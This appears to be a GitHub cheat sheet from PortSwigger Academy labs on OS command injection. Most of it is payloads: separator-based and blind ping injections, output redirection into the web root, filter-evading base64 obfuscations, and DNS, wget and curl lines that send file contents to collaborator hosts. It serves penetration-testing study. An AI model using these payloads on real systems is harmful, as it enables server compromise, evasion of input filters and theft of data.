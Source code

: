 # Command Injection

## Summary

* [General Recon For Comamnd Injection Vulnerabilities](#recon)

  
* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

  
   * [Obfuscation Related Payloads](#obfuscation-payloads)

<br>

## Resources

* https://portswigger.net/web-security/os-command-injection
* https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection

<br>

## Recon

* First step is to perform application mapping and identify any instances where the application appears to be interacting with the underlying OS by calling external processes or accessing the filesystem.  
* The application may issue OS system commands containing any item of user supplied data (every URL, parameters, cookies, etc.).  It’s recommended to probe all these instances for OS Command Injection.

<br>

---
---

## Cheat Sheet

### Background Knowledge

* The characters ; | & and newline(URL encoded -> %0a) can be used to batch multiple commands one after another.  Each of these characters should be used when probing for command injection vulnerabilities, as the application may reject some inputs but accept others.

* The backtick \` character can also be used to encapsulate a separate command within a data item being processed by the original command.  This will cause the interpreter to execute this command first before continuing to execute the remaining command String: 

```bash
nslookup `whoami`.server-you-control.net
```

<br>

* Other useful commands to know:  https://portswigger.net/web-security/os-command-injection#useful-commands

* Ways of injecting OS commands:  https://portswigger.net/web-security/os-command-injection#ways-of-injecting-os-commands

Note:   Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command.

<br>

### Example

* Many times the injected characters need to be encoded, since they can interfere with the structure of the URL/body parameters.

  * For example, below the & and {space} characters need to be URL encoded (%26 and %20) in order to be treated as part of the injection payload:

![Command Injection](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/blob/master/Command%20Injection/Images/CommandInjection-1.png)

<br>

### Simple Command Injection

```bash
& echo test123 &
```

<br>

### Blind Command Injection

* Many times, the results of the injected commands are not returned in the application responses.  If that is the case, we can use the ping command to trigger a time delay in the application’s response by causing the server to ping its loopback interface for a specific time period.

* To maximize chances of identifying OS Command Injection if the application is filtering certain command separators, submit each of the following payloads to each input fields and analyze the time taken for the application to respond:

```bash
| ping -i 30 127.0.0.1 |
```

```bash
email=x||ping+-c+10+127.0.0.1||
```

```bash
| ping -n 30 127.0.0.1 |
```

```bash
& ping -i 30 127.0.0.1 &
```

```bash
& ping -n 30 127.0.0.1 &
```

```bash
; ping -i 30 127.0.0.1 ;
```

```bash
%0a ping -i 30 127.0.0.1 %0a
```

```bash
` ping 127.0.0.1 `
```

<br>

### Output Redirection

* We can also redirect a commands output to a file using the > character.  The below example redirects the output of the OS command to a file <u>within the web root</u>, then we can access the file to view the contents through our browser.

```bash
; whoami > /var/www/images/test;
```

<br>

### Out-of-band channel payloads

#### Network Interaction

```bash
; nslookup server-you-control ;
```

```bash
& nslookup server-you-control &
```

<br>

#### Reverse Shells
* https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

<br>

#### DNS Data Exfiltration
* Using backticks \`_command_\` and $(_command_)

```bash
; nslookup $(whoami).server-you-control ;
```

```bash
; nslookup `whoami`.server-you-control ;
```

<br><br><br>

### Obfuscation Payloads:

The goal here was to learn how the following payload can be obfuscated, to bypass filters for data exfiltration.

The payloads can be combined when exploiting Template Injection or other vulnerabilities that use OS Command injection.

<br>

  * Original Payload:
    
```
||nslookup+$(cat+/etc/hostname).fp8v70vp.oastify.com||
```

<br>

  * Obfuscation - Using the "echo" command to help obfuscate the word "hostname"

```
||nslookup+$(cat+/etc/ho`echo+'stname'`).fp8w54v70vp.oastify.com||
```

<br>

  * Obfuscation - Using base64 encoding to "hide" the file name "/etc/hostname"
    
```
||nslookup+$(cat+`echo+'L2V0Yy9ob3N0bmFtZQ=='+|+base64+--decode`).fp8v70vp.oastify.com||
```

  * Decoded payload
```
||nslookup $(cat `echo 'L2V0Yy9ob3N0bmFtZQ==' | base64 --decode`).fp8w70vp.oastify.com||
```

<br>

* Obfuscation - Using base encoding to "hide" the whole command "cat /etc/hostname"

```
||nslookup+$(`echo+'Y2F0IC9ldGMvaG9zdG5hbWU='+|+base64+--decode`).er9v70tk9lz9o.oastify.com||
```

<br><br>

* Other methods to achieve data exfiltration:

```
nslookup -q=cname $(cat /home/test).burp.oastify.com
```

```
wget http://burp-collab.com --post-file=/home/test
```

```
curl http://wcq0jo8.oastify.com -d @/home/test
```

<br><br><br>

### Pending to complete labs that are missing from cheat sheet:

* All labs in this category are completed and referenced in cheat sheet.

